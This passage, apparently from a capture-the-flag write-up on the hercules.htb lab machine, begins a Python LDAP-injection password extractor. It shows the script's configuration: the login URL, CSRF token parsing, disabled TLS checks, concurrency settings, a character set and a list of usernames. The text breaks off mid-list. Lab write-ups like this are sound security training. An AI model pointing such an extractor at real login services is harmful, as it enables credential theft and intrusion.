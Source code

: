 ### High-Speed Password Extractor

Create `ldap_password_extract.py`:

```python
#!/usr/bin/env python3
# LDAP Injection - High-Speed Concurrent Password Extractor
# Optimized for maximum speed with concurrent character testing

import asyncio
import httpx
import re
import string
import urllib3
from collections import deque
import time
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

BASE = "https://hercules.htb"
LOGIN_PATH = "/Login"
LOGIN_PAGE = "/login"
TARGET_URL = BASE + LOGIN_PATH
VERIFY_TLS = False
USERNAME_FIELD = "Username"
PASSWORD_FIELD = "Password"
REMEMBER_FIELD = "RememberMe"
CSRF_FORM_FIELD = "__RequestVerificationToken"

PASSWORD_TO_SEND = "test"
DOUBLE_URL_ENCODE = True

# HIGH PERFORMANCE SETTINGS
CONCURRENT_CHAR_TESTS = 15      # Test 15 characters at once
CONCURRENT_USER_TESTS = 3       # Test 3 users simultaneously
MAX_SEMAPHORE = 20              # Global request limit
CHAR_DELAY = 0.05               # Minimal delay between char tests
USER_DELAY = 0.1                # Minimal delay between users

# Optimized charset - common first
OPTIMIZED_CHARSET = (
    "acteh" +                    # Most common starting chars
    string.ascii_lowercase +     # a-z
    string.digits +              # 0-9
    string.ascii_uppercase +     # A-Z
    "!@#*()-_." +               # Common special chars
    ",;:?<>[]{}+=\\|'\"`~^%&/"  # Less common
)

MAX_PASSWORD_LENGTH = 50
VERBOSE = True
DEBUG = False

SUCCESS_INDICATOR = "Login attempt failed"

TOKEN_RE = re.compile(
    r'<input[^>]*name=["\']__RequestVerificationToken["\'][^>]*value=["\']([^"\']+)["\']',
    re.IGNORECASE | re.DOTALL
)

KNOWN_USERS = [
    "johnathan.j", "ken.w", "admin", "administrator",  # Priority
    "adriana.i", "angelo.o", "ashley.b", "auditor", "bob.w", 
    "camilla.b", "clarissa.c", "elijah.m", "fiona.c", "heather.s", 
    "jacob.b", "jennifer.a", "jessica.e", "joel.c", "johanna.f", 
```